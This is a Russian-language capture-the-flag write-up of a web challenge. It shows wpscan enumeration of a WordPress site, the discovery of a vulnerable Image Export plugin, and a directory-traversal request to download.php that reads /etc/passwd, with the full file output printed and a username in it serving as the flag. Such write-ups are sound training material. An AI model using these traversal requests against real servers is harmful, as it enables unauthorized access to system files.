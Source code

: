 Mr.Hacker [Web 150]
=====================
> Красивый дизайн, впечатляющие возможности и свобода создавать всё, что вы захотите.
http://185.17.120.141 (Посмотри на логин этого парня)


![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image01.PNG?raw=true)

Переходим на сайт. Видим, что cms сайта - ```wordpress```. Так же можно узнать версию wordpress ```4.7.3```.
Если вы читаете IT новости, то наверняка видили много статьей про уязвимости wordpress, а значит нам необходим их проэкспуатировать

Используем встроенный в Kali Linux сканер ```wpscan``` (его также можно установить на любой другой дистрибутив)

Инициализируем, используя флаги ```--url``` (для указания ip адресса сайта)  ```--enumerate``` (перечисление опций ) ```vp``` (только уязвимые плагины)

```wpscan --url http://185.17.120.141/ --enumerate vp```


В результате сканирования получаем следующую информацию:

```
[+] We found 1 plugins:

[+] Name: image-export - v4.1
 |  Location: http://185.17.120.141/wp-content/plugins/image-export/
 |  Readme: http://185.17.120.141/wp-content/plugins/image-export/readme.txt

[!] Title: Image Export <= 1.1.0 - Directory Traversal
    Reference: https://wpvulndb.com/vulnerabilities/8096
    Reference: http://www.vapid.dhs.org/advisory.php?v=135
    Reference: http://packetstormsecurity.com/files/132688/

[+] Finished: Sun Jun  3 15:22:51 2018
[+] Requests Done: 1697
[+] Memory used: 78.488 MB
[+] Elapsed time: 00:00:54
```

Как мы видим, на сайте используется уязвимый плагин ```Image Export```

Гуглим, натыкаемся на сайт с описанием экспоита:

```https://ru.0day.today/exploit/23884```

![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image02.PNG?raw=true)

Читаем описание экспоита.
Видим, что с помощью данного экспоита можно получить доступ к файла сервера.
Применим его к нашему сайту, скачав файл с данными пользователей ```/etc/passwd```

```http://185.17.120.141/wp-content/plugins/image-export/download.php?file=/etc/passwd```

Открываем файл и внизу обнаруживаем пользователя со странным никнеймом ```th1s_Is_d1r3cT0ryTR4VeRs4l```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
nut:x:84:84:nut:/var/state/nut:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/bin/false
th1s_Is_d1r3cT0ryTR4VeRs4l:x:1000:1000:Linux User,,,:/home/th1s_Is_d1r3cT0ryTR4VeRs4l:
<br />
<b>Warning</b>:  unlink(/etc/passwd): Permission denied in <b>/var/www/html/wp-content/plugins/image-export/download.php</b> on line <b>8</b><br />
```
Легко догадаться, что данное имя пользователя и является флагом

```flag{th1s_Is_d1r3cT0ryTR4VeRs4l}```

